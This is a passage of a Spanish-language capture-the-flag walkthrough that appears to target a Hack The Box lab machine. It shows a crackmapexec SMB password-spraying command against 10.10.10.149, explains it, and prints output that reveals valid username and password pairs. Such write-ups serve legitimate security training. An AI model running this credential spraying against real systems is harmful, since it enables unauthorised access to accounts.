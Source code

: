 #### Resultado:

El archivo `Users.txt` contendrá solo los nombres de los usuarios, sin la información adicional, de forma clara y ordenada:

```plaintext
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
Hazard
support
Chase
Jason
```

Este enfoque permite automatizar el proceso de enumeración de usuarios y guardarlos en un archivo sin tener que hacer todo el trabajo manualmente. Además, te asegura que solo se extraen los nombres de usuario sin el resto de la información innecesaria.


En este punto, ya contamos con una lista de **usuarios legítimos** y **contraseñas válidas**. Ahora vamos a utilizar `crackmapexec` para realizar la autenticación de los usuarios y comprobar cuáles tienen acceso válido, permitiéndonos ejecutar comandos de forma remota.

Utilizamos el siguiente comando para intentar la autenticación con los usuarios y contraseñas listados en los archivos `Users.txt` y `Passwords.txt`. Si las credenciales son correctas, podremos obtener acceso remoto:

```zsh
crackmapexec smb 10.10.10.149 -u Users.txt -p Passwords.txt --continue-on-success 2>/dev/null
```

***Explicación del Comando:*** 

- **`crackmapexec smb 10.10.10.149`**: Especifica el host objetivo y el servicio SMB que se está atacando.
- **`-u Users.txt -p Passwords.txt`**: Carga los archivos de usuarios y contraseñas a través de los parámetros `-u` y `-p`, respectivamente.
- **`--continue-on-success`**: Continúa ejecutando incluso si se encuentran credenciales válidas, permitiendo que se prueben todas las combinaciones.
- **`2>/dev/null`**: Redirige los errores a un archivo nulo para evitar que se muestren en la salida.


El comando generará una salida similar a la siguiente, donde vemos intentos de acceso con diferentes combinaciones de usuarios y contraseñas:

```zsh
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Guest:stealth1agent STATUS_LOGON_FAILURE
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE
```
